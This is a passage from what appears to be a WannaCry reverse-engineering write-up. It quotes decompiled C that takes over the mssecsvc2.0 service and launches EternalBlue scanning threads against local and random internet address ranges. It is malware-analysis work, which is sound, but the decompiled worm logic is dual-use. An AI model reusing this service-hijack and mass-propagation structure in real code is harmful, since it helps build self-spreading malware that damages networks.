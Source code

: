 Before we look at the `UnpackBinary` function, let's look at what the created service does. After returning from the `ArgumentsParser` function, the following code will be ran:
### Exploring WannaCryMain further
```c
scm_handle = OpenSCManagerA(0, 0, 0xF003Fu);
if ( scm_handle )
{
  service_handle = OpenServiceA(scm_handle, ServiceName, 0xF01FFu);
  service_handle_cp = service_handle;
  if ( service_handle )
  {
    ModifyService(service_handle, 60);
    CloseServiceHandle(scm_handle);
  }
  CloseServiceHandle(scm_handle);
}
ServiceStartTable.lpServiceName = ServiceName;
ServiceStartTable.lpServiceProc = ServiceEntryPoint;
```
As you might guess, the `ServiceName` variable refers to the previously created `mssecsvc2.0` service. My understanding of this is, that the code will modify service's entrypoint to be the `ServiceEntryPoint` function pointer. 
### ServiceEntryPoint function
Opening `ServiceEntryPoint`, we see the following:
```c
SERVICE_STATUS_HANDLE handle_service_status;
handle_service_status = RegisterServiceCtrlHandlerA(ServiceName, HandlerProc);
hServiceStatus = handle_service_status;
if ( handle_service_status )
{
  ServiceStatus.dwCurrentState = 4;
  ServiceStatus.dwCheckPoint = 0;
  ServiceStatus.dwWaitHint = 0;
  SetServiceStatus(handle_service_status, &ServiceStatus);
  EternalBlueService();
  Sleep(86400000u);                           // 24 hours
  ExitProcess(1u);
}
return handle_service_status;
```
In short, the service will run the `EternalBlueService` function, sleep for 24 hours and exit. As is obvious, the most interesting thing to us in this section, is the `EternalBlueService` function. 
### EternalBlue function(s)
The EternalBlueService function holds a few interesting parts:
```c
result = InitCrypto_ReadSelf();
if ( result )
{
  thread_handle = beginthreadex(0, 0, EternalBlueLocalRange, 0, 0, 0);
  if ( thread_handle )
    CloseHandle(thread_handle);
  for ( i = 0; i < 128; ++i )
  {
    package_async = beginthreadex(0, 0, EternalBlueRandomWanRange, i, 0, 0);
    if ( package_async )
      CloseHandle(package_async);
    Sleep(2000u);
  }
  return 0;
}
return result;
```
